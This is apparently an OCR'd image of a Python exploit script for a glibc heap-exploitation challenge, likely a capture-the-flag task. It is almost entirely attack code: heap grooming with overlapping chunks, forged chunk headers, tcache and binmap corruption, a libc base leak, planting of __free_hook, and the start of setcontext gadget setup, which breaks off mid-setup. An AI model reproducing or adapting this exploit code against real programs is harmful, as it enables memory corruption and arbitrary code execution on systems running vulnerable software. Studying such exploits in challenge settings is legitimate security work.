 ```python
#
add(0x288,bit()+b"\\x00"*(0x128)+p64(0xdeadbeef))
add(0x80)#pad to avoid heap-guess
add(0xa8,b"\\0"*0x88+p64(0xd1))
add(0xb0)
add(0x288,bits(18)+p64(0)*0x9+b'\\x90')
add(0xa8,p64(0)*3+p64(0xc1))#overlap
add(0xc8,p64(0)*3+p64(0xff1))# modify chunkd head
for x in range(9):
	add(0x408,p64(0x21)*(0x3f0//8))
	add(0x288,bits(8))
add(0x408,p64(0x21)*(0x3f0//8))
add(0x288,bits(8))
add(0x288,bits(20))
add(0xb8)#unsotred bin get
add(0x288,b'\\0'*0x287)#clear

add(0x430)#leave a libc address

add(0x370)
add(0x98)
add(0x288,bits(16,8)+p64(0)*8+b'\\xf0')# overlap
add(0x88,b'\\0'*0x18+p64(0xc1))#edit head
add(0x98)# we have a libc chunk at the top of tcache
add(0x288,bits(16,1)+p64(0)*8+b'\\xf0\\xa3')# overlap and modify the point now it points at bitmap in arana 1/16
# creat a avaliable binmap largebin size= [670]

add(0xc8)#pad
add(0x3f8)#pad
add(0x680)#creat the binmap, head == 200, address= 0x7ffff7f5a3f0-0x10
add(0x98)
add(0x1f8,b'\\0'*0x108+p64(0xf1))# fake a new head just before the strol-space struct in order to set a value on that!
add(0x288,bits(30*2,1)+p64(0)*30+b'\\x00\\xa5')# fetch the fake one
add(0x1f8,b'\\0'*0x1a0+p64(0x1800)+b'\\0'*0x18+b'\\xe0\\x32')#1/16
#context.log_level='debug'
#while(0x1000):
#	p.send(b"0")
#p.sendline()
#print(p.read())
p.sendline(b'0'*0xe00)
base=u64(p.read(8))-(0x7ffff7fb19a0-0x7ffff7d6e000)
log.warning(hex(base))
"""

while(1):
	data=p.read(8)
	print(data)
	if((b"gift" not in data )and (data!=b'')):
		break

base=u64(data)-(0x7ffff7fb19a0-0x7ffff7d6e000)
log.warning(hex(base))
#if(base&0xffff000000000000!=0):
#	exit(1)
"""
add(0x288,bits(30*2)+p64(0)*30+p64(base+0x1eeb28))# leave a __free_hook on tacache
raw_input()
setcontext=0x7ffff7dc60dd-0x7ffff7d6e000+base
rdx2rdi=0x7ffff7ec2930-0x7ffff7d6e000+base
address=0x7ffff7f5cb30-0x7ffff7d6e000+base
rdi=0
```